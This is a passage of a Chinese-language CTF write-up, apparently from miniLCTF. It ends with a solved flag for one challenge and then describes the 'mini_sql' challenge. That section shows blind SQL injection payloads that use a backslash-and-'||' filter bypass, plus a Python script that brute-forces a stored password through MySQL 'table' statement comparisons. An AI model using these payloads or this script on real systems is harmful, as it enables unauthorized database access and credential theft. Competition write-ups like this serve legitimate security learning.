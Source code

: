 ```
var05.sign(var05.enc, var05.res);
print(var05.flag);
```

```
miniLctf{l3m0n_1s_s0_s0urrR77RrrR7}
```




---

# mini_sql | hahaha | done

网页源代码给出了 SQL 执行语句`select * from users where username='$username' and password='$password';`

首先 fuzz 一下，

![image-20220508154601107](C:\Users\hhh\AppData\Roaming\Typora\typora-user-images\image-20220508154601107.png)

union,select 均被过滤，双写，大小写，试了很多绕过均没用，但转移符`\`和`||`还在,得到

`username=admin\&password=||2>1;%00`，回显 success!，注入成功。由此推断使用布尔盲注，常用函数中还剩下`mid()`和`length()`

由此得到`username=admin\&password=||length(username)>10;%00` ,注出 username 长度为19。

`username=admin\&password=||mid(username1,1)>0x??;%00`注出 username =`w3lc0me_t0_m1n1lct5`

但是 password 因为 or 被过滤了导致不能查询这个字段名，试了很多方法构造不出来，放弃这个方法，在搜索引擎里寻宝。

在一篇文章看到 selet 被过滤的情况下，如果 mysql 版本高于 8.0.19 ,可以使用 table 语句注入，据此写出脚本，~~当时没有收藏，清缓存时不小心把浏览记录删了，找不到原文章了~~

```python
import requests
import sys
from urllib.parse import unquote

url="http://47.93.215.154:10000/login.php"
ascii="/0123456789:;ABCDEFGHIJKLMNOPQRSTUVWXYZ_`abcdefghijklmnopqrstuvwxyz.{|}~"
flag=""


for i in range(100):

    for j in ascii:


     #payload='||(("ctf","users",binary"{}","",1,1)<= (table mysql.innodb_table_stats limit 0,1));%00'.format(flag+j)
     payload='||((1,"w3lc0me_t0_m1n1lct5",binary"{}")<= (table users limit 0,1));%00'.format(flag+j)
     data={
        "username":"admin\\",
       "password":unquote(payload)

       }
     r=requests.post(url,data=data)

     print(r.text)

     if "success!" not in r.text:
       flag+=chr(ord(j)-1)
       print(flag)
       break


```